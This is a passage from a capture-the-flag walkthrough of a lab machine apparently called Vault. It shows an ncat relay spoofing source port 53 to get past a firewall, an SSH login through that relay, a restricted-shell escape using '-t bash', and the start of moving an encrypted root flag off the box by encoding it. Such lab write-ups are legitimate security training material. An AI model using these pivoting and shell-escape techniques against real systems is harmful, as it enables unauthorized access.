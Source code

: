   

I first started ncat listener in the background:

  

`/usr/bin/ncat -l 1337 --sh-exec "ncat 192.168.5.2 987 -p 53" &`

![](https://i.imgur.com/EAtWq9r.png)

With the listner running, I made ssh connection to the listener:

  

`ssh dave@localhost -p 1337`

![](https://i.imgur.com/wu87s1z.png)

Now I have SSH connection to **dave@vault**!

### rbash escape

I tried moving to different directories and it was restricted due to **rbash**:

  

![](https://i.imgur.com/400JPZK.png)

I can easily bypass this by appending `-t bash` at the end of the command as such:

`ssh dave@localhost -p 1337 -t bash`

![](https://i.imgur.com/EMIi2iq.png)

## root.txt.gpg decrypt

Looking around the file system, I found **root.txt.gpg** which seemed like an end goal for this box:

![](https://i.imgur.com/jBnpVzZ.png)

I first tried decrypting on **dave@vault** but secret key wasn't available on this system:

  

`gpg -d root.txt.gpg`

![](https://i.imgur.com/JPqQUB3.png)

In order to transfer file to different systems, I tried base64 but sadly it wasn't installed on dave@vault:

  

`base64 root.txt.gpg`

![](https://i.imgur.com/kB1jsfZ.png)

Luckily, base32 was installed:

  